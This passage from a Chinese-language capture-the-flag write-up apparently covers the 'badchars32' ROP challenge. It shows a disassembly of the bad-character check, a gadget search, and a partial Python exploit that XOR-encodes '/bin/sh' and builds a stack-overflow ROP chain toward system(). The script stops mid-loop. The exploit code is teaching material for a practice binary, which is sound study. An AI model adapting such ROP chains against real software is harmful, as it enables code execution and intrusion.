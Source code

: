 ```
   0x08048876 <+117>:   jbe    0x8048847 <checkBadchars+70>
   0x08048878 <+119>:   add    DWORD PTR [ebp-0x4],0x1
   0x0804887c <+123>:   mov    eax,DWORD PTR [ebp-0x4]
   0x0804887f <+126>:   cmp    eax,DWORD PTR [ebp+0xc]
   0x08048882 <+129>:   jb     0x804883e <checkBadchars+61>
   0x08048884 <+131>:   nop
   0x08048885 <+132>:   leave  
   0x08048886 <+133>:   ret    
End of assembler dump.
```
很明显，地址 `0x08048807` 到 `0x08048823` 的字符就是所谓的敏感字符。处理敏感字符在利用开发中是经常要用到的，不仅仅是要对参数进行编码，有时甚至地址也要如此。这里我们使用简单的异或操作来对字符串编码和解码。

找到 gadgets：
```
$ ropgadget --binary badchars32 --only "mov|pop|ret|xor"
...
0x08048893 : mov dword ptr [edi], esi ; ret
0x08048896 : pop ebx ; pop ecx ; ret
0x08048899 : pop esi ; pop edi ; ret
0x08048890 : xor byte ptr [ebx], cl ; ret
```

整个利用过程就是写入前编码，使用前解码，下面是 payload：
```python
from zio import *

xor_ebx_cl  = 0x08048890
pop_ebx_ecx = 0x08048896
pop_esi_edi = 0x08048899
mov_edi_esi = 0x08048893

system_plt  = 0x080484e0
data_addr   = 0x0804a038

# encode
badchars    = [0x62, 0x69, 0x63, 0x2f, 0x20, 0x66, 0x6e, 0x73]
xor_byte    = 0x1
while(1):
    binsh = ""
    for i in "/bin/sh\x00":
        c = ord(i) ^ xor_byte
        if c in badchars:
            xor_byte += 1
            break
        else:
            binsh += chr(c)
    if len(binsh) == 8:
        break

# write
payload  = ""
payload += "A"*44
payload += l32(pop_esi_edi)
payload += binsh[:4]
payload += l32(data_addr)
payload += l32(mov_edi_esi)
payload += l32(pop_esi_edi)
payload += binsh[4:8]
payload += l32(data_addr + 4)
payload += l32(mov_edi_esi)

# decode
for i in range(len(binsh)):
```